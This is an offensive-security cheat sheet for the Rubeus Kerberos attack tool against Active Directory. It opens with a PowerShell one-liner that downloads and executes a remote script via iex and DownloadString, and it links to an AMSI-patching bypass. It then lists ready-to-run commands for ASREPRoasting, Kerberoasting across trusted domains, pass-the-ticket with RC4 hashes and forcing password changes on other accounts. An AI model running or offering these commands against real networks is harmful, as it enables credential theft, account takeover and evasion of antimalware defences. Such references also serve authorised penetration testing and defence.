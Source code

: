 # References
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
> **Warning**
> [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## ASREPRoast with specified credentials
```powershell
Invoke-Rubeus 'asreproast /outfile:asreproast.<domain>.txt /format:hashcat /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Kerberoast
### Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat'
```

### Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

### Kerberoast from non-joined domain machine
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /creduser:<domain.local>\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

### List statistics about found Kerberoastable accounts without actually sending ticket requests
```powershell
Invoke-Rubeus 'kerberoast /stats /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Reqest and pass a TGT ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```

## Change password for another user using kerberos ticket
```powershell
Invoke-Rubeus 'asktgt /user:<user_can_change_passwords> /changepw /rc4:<hash> /domain:<domain> /outfile:<user_can_change_passwords>.ticket'
Invoke-Rubeus 'changepw /ticket:<user_can_change_passwords>.ticket /new:<new_password> /targetuser:<domain.local>\<user_to_change_password> /dc:<dc>.<domain>.local'
```

## List all tickets filter by service krbtgt
```powershell
Invoke-Rubeus 'triage /service:krbtgt'
```
